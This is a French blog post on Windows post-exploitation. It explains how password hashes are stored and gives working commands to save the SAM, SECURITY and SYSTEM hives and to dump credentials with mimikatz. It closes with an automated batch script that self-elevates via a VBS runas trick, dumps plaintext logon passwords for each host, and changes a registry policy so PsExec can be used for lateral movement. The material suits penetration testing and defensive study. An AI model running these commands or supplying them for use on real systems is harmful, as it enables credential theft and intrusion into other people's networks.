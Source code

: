 ```yaml
---
layout: post
title: "Commandes de post-exploitation Windows"
description: "Commandes de post-exploitation Windows"
category: Post-Exploitation
tags: [Windows, Post-Exploit, Hack]
---
```

{% include JB/setup %}

## Récupération des mots de passe ##

### Méthode de stockage des empreintes sur le disque ###

Sous Windows les mots de passe sont stockés sous 3 formes :

* Les empreintes, LM et NTLM, des mots de passe des utilisateurs locaux sous Windows, dans la base SAM ;
* Les empreintes, MsCache, des mots de passe des utilisateurs de domaine mis en cache, dans la ruche SECURITY ;
* Les empreintes, LM et NTLM, des mots de passe des utilisateurs de domaine, dans le fichier NTDS.dit sur le contrôleur de domaine.

Ces empreintes sont chiffrées à l'aide de la "SysKey" ou "BootKey" contenue dans la ruche SYSTEM.


### Récupération des empreintes sur le disque ###

L'accès à ces informations est limité aux administrateurs.

Il est possible de les récupérer simplement et sans danger :

* En sauvegardant les ruches :

{% highlight Batch %}
REM Windows 2000
regback.exe "C:\backtemp\SAM"      machine sam
regback.exe "C:\backtemp\SECURITY" machine security
regback.exe "C:\backtemp\SYSTEM"   machine system

REM Recent Windows
reg.exe save "HKLM\SAM"      sam
reg.exe save "HKLM\SECURITY" security
reg.exe save "HKLM\SYSTEM"   system
{% endhighlight %}

* A l'aide du service de ShadowCopy :

{% highlight Batch %}

{% endhighlight %}

Une fois ces empreintes, elles peuvent être déchifrées à l'aide de SamDump2.

Ces empreintes peuvent être récupérée à l'aide d'outils utilisant pour certains des méthodes risqués tel que l'injection de DLL :

* CAIN ;
* PwDump ;
* CacheDump ;
* Gsecdump ;
* [QwarksPwDump](https://github.com/quarkslab/quarkspwdump) ;
* [IMA](http://www.xmco.fr/ima-password-audit.html) ;
* [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases).


### Récupération des empreintes et mots de passe en mémoire ###

Pour faire fonctionner son mécanisme de SSO, Windows conserve en mémoire différent formats d'empreintes.

Par exemple, le stockage des empreintes faibles LM peut être désactivé, en revanche celles-ci sont calculées lors de l'ouverture de session.

Plus particulièrement, le gestionnaire Wdigest qui permet les authentifications des services Web en Basic doit conserver les mots de passe en clair.

L'outil [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases) permet de récupérer ces empreintes de manière sécurisée :

{% highlight Batch %}
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit" > output.txt
{% endhighlight %}


## Script de récupération automatisée ##

{% highlight Batch %}
@echo off

REM Windows XP doesn't have UAC so skip
for /f "tokens=3*" %%i in ('reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName ^| Find "ProductName"') do set WINVER=%%i %%j
echo %WINVER% | find "XP" > nul && goto commands

REM prompt for elevation
if "%1" == "UAC" goto elevation
(
  echo Set objShell = CreateObject^("Shell.Application"^)
  echo Set objFSO = CreateObject^("Scripting.FileSystemObject"^)
  echo strPath = objFSO.GetParentFolderName^(WScript.ScriptFullName^)
  echo If objFSO.FileExists^("%~0"^) Then
  echo   objShell.ShellExecute "cmd.exe", "/c """"%~0"" UAC ""%~dp0""""", "", "runas", 1
  echo Else
  echo   MsgBox "Script file not found"
  echo End If
) > "%TEMP%\UAC.vbs"
cscript //nologo "%TEMP%\UAC.vbs"
goto :eof

:elevation
del /q "%TEMP%\UAC.vbs"

:commands

REM Get hostname
FOR /F "usebackq" %%i IN (`hostname`) DO SET MYHOST=%%i

REM navigate back to this script's home folder
cd /D %~dp0

REM dump passwords
x64\mimikatz.exe   "privilege::debug" "sekurlsa::logonPasswords" "exit" > output64_%MYHOST%.txt
Win32\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit" > output32_%MYHOST%.txt

REM Enable PsExec
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
{% endhighlight %}
